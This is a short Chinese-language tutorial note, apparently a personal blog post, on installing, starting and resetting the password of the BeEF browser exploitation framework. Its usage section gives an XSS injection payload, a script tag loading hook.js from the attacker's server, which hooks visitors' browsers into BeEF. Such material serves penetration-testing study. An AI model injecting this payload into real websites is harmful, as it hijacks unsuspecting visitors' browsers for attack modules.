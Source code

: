 ```yaml
---
title: Beef-xss
date: 2023-10-07 15:20:56
tags:
---
```


# Beef-xss的安装

linux安装命令

```
apt install beef-xss
```

github项目：[beefproject/beef: The Browser Exploitation Framework Project (github.com)](https://github.com/beefproject/beef)



# 启动

```
beef-xss
```

![image-20231007152901725](../资源文件/图片/image-20231007152901725.png)

默认用户名为`beef`,密码为**自己设置的**

初次使用会让你设置密码，如果密码忘了，可以到 `/usr/share/beef-xss/config.yaml` 查看，这是Beff-xx的「配置文件」，用来保存版本、密码等配置信息。

![image-20231007153149122](../资源文件/图片/image-20231007153149122.png)

```text
# 1、编辑配置文件，修改passwd字段
vim /usr/share/beef-xss/config.yaml

# 2、重启beef-xss服务
systemctl restart beef-xss
```



# 使用

对有xss的界面可输入

```
<script src="http://192.168.37.152:3000/hook.js"></script>
```

IP为beef所在的服务器的IP

![image-20231007153539568](../资源文件/图片/image-20231007153539568.png)

![image-20231007153829245](../资源文件/图片/image-20231007153829245.png)

即可上线

然后里面内置许多模块可供使用
